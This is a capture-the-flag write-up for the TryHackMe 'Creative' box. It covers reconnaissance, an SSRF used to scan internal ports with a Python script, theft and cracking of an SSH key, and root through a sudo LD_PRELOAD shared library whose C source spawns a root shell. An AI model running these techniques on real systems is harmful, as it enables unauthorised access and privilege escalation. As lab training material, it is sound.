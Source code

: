 ```yaml
---
title: "THM - Creative writeup"
date: 2024-05-08
image: /assets/images/creative/banner_creative.png
tags:
  [
    tryhackme,
    writeups,
    nmap,
    dns,
    subdomain,
    ssrf,
    python,
    john_the_ripper,
    ld.so,
    c_lang,
    ld_preload,
  ]
categories: [TryHackMe, Writeup]
redirect_from: /2024/05/08/creative/
---
```


Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) box ["Creative"](https://tryhackme.com/r/room/creative).

## Information gathering

If you have read any of my older writeups, you know that I always have the same start:

```bash
nmap -Pn TARGET_MACHINE_IP -oN ports && nmap -Pn -sC -sV -p $(grep -Po '.*(?=/tcp)' ports | tr '\n' ',') TARGET_MACHINE_IP -oN services
```

That scan reveals two open ports:

- 22 which is running OpenSSH
- 80 which is running Apache

## Redirection to FQDN

After trying to visit the website by type the ip into the browser url bar, the response is a redirection to the FQDN `creative.thm`, which results into a empty page. To solve this problem, I have to add the ip and the FQDN to my `/etc/hosts` file.

After that the website is shown as expected:

![creative.thm.png](/assets/images/creative/creative.thm.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I have looked through the whole page but there are no hints there. I even scraped all the usernames and the structure of email address.

But all were useless and I have to change my direction.

### Forgotten door

I decided to search for subdomains with help of [gobuster](https://github.com/OJ/gobuster). And there is one subdomain:

![gobuster_vhost.png](/assets/images/creative/gobuster_vhost.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I used `subdomains-top1million-20000.txt` wordlist, but `rockyou.txt` will also work in this case.
Now lets have a look on that subdomain by adding it to the `/etc/hosts` file with the same ip as the main site.

![beta.creative.thm.png](/assets/images/creative/beta.creative.thm.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

I should be able to give a url which will be "tested" from the target server. This looks like a opportunity for an [SSRF-attack](https://portswigger.net/web-security/ssrf#:~:text=Server%2Dside%20request%20forgery%20is,services%20within%20the%20organization's%20infrastructure.).

First let's open a simple http server locally and try to reach it from the target server.

```bash
python -m http.server 9090
```

![targetToUs.png](/assets/images/creative/targetToUs.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Now that the proof is done, I have decided to check if I can check for open ports from internally. From external with help of nmap, I was able to find two open ports: 80 and 22.

First I checked the open port 22 and got a

```html
<p>Dead</p>
```

response. Then, just to be sure that this really doesn't work, I checked port 80, which is also open. But this time, the response contains the whole main page as html text. By inspecting the request with developer tools, I had all needed information to create a simple portscanner with python.

![inspectURLTesting.png](/assets/images/creative/inspectURLTesting.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

### DIY Portscan

```python
import requests
from concurrent.futures import ThreadPoolExecutor

def checkPort(port):
  data = {"url": f"http://localhost:{port}"}
  response = requests.post("http://beta.creative.thm", data=data)
  if "Content-Length" not in response.headers:
    print(f"Found open port: {port}")

with ThreadPoolExecutor(max_workers=30) as executor:
  executor.map(checkPort, list(range(1,65535)))
```

I'm checking for the `Content-Length` header, because it only appears when the port is not open. With this scan I was able to find out that port 1337 is accepting requests.

When requesting that port the response is the root directory of the server self.

## Footstep

From this point, to get the content of user.txt is straight forward, because I can just enter any directory I want to get the content of it. Just look at `/home/` to get the username and then into the user's home to find out the name of the file with the first flag.

After that I didn't waste time on bruteforcing the password for the user to get ssh connection. I just read the content of `~/.ssh` and grab the user's private key. The private key is encrypted, so to be able to use it and connect via ssh, I had to bruteforce it with john.

```bash
ssh2john id_rsa > id_rsa_hash
```

```bash
john --wordlist ./rockyou.txt id_rsa_hash
```

After that I was logged in as user saad via ssh.

## PrivEsc

The last step has to be done now. In order to get root, I've searched for any SUID oder Cronjob without luck.
To see if saad has some sudoers privileges, I have to get the password. But the cracked password for the private key is not the same as for the user. By looking into the users home directory, I observed the password in the `.bash_history` file.
And the user has sudoers privileges but only for using the ping command, which is useless for in order to gain root privileges. But there is something else...

![sudo-l.png](/assets/images/creative/sudo-l.png){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

This is interesting, because we can use it to gain root access. (see [man8 - ld.so](https://man7.org/linux/man-pages/man8/ld.so.8.html))

For this I have created a simple `c` code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD"); // To prevent further interceptions of library functions
  // Set user ID and Group to 0 (root)
  setgid(0);
  setuid(0);
  // Spawn a shell as root
  system("/bin/bash");
}
```

Then compile and run the code to get root.

```bash
gcc -fPIC -shared -o getRoot.so getRoot.c -nostartfiles
```

The `-nostartfiles` is needed or the redefinition of \_init() would cause a compiling error.

```bash
sudo LD_PRELOAD=./getRoot.so ping
```

Good luck! :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }
